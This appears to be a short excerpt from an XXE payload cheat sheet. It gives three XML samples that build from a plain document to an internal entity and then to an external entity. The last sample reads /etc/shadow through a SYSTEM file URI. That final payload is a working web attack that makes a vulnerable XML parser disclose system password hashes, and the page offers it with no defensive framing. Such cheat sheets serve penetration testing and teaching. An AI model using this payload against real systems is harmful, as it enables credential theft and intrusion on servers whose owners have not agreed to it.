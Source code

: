###### XXE: Basic XML Example

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

###### XXE: Entity Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

###### XXE: File Disclosure

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```
